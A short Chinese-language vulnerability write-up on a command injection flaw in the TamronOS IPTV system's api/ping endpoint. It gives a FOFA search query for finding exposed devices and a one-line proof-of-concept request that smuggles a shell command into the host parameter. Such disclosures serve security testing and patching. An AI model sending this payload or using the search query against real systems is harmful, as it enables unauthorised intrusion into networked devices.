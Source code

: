 # TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

```
TamronOS IPTV系统
```

## FOFA

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](./images/202202101926621.png)



漏洞POC为



```plain
/api/ping?count=5&host=;id;
```



![](./images/202202101927800.png)